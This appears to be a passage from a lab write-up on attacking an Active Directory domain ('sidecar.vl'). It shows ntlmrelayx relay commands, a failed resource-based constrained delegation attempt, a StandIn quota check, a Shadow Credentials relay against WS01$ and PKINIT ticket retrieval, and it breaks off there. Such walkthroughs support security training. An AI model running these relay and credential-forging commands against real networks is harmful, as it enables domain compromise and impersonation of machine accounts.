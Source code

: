 <img src="https://i.imgur.com/sJ3IwaQ.png"/>

<img src="https://i.imgur.com/Va9J646.png"/>

Disabling HTTP, SMB and LDAP on responder so that we can use ntlmrealyx to relay WS01 hash for performing `Resourse Based Constrained Delegation (RBCD)`

<img src="https://i.imgur.com/GDEuVR4.png"/>

```bash
ntlmrelayx.py -t ldaps://DC01.sidecar.vl --delegate-access -smb2support
```

We are suceessful in realying the authentication from WS01 but this wasn't able to create machine account and perform the attack

<img src="https://i.imgur.com/iKvgre9.png"/>

Enumerating`ms-DS-MachineAccountQuota` with `StandIn` which is a .NET binary for enumerating AD

```powershell
dotnet inline-execute /opt/AD-Windows-Enum/StandIn_v13_Net45.exe --object ms-DS-MachineAccountQuota=*
```

<img src="https://i.imgur.com/JdMIuuc.png"/>
<img src="https://i.imgur.com/MzottTd.png"/>

The property value is 0 so we cannot a machine account, RCBD fails here but it still possible to utilize coercion from WS01$ if there's ADCS installed on domain

<img src="https://i.imgur.com/4YFBB7z.png"/>

Verifying the presences of ADCS server, we can perform `Shadow Credentials` by adding a certificate in `msDS-KeyCredentialLink` property of WS01$ account for alternate authentication using `PKINIT` , this feature isn't in current repo of ntlmrealyx so switching the branch to `shadowcredentials`

<img src="https://i.imgur.com/x9NJbYE.png"/>

```bash
ntlmrelayx.py -t ldaps://DC01.sidecar.vl --shadow-credentials --shadow-target 'WS01$'
```

<img src="https://i.imgur.com/mtvlnke.png"/>

## Impersonating as local admin on WS01

Through PKINIT tools we can get the TGT/NTHash for WS01

```bash
python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx 3cIlkuYb.pfx -pfx-pass Fc0RJ71jot050cNh4MJi sidecar.vl/'WS01$' 3cIlkuYb.ccache
```

<img src="https://i.imgur.com/RncFz8f.png"/>
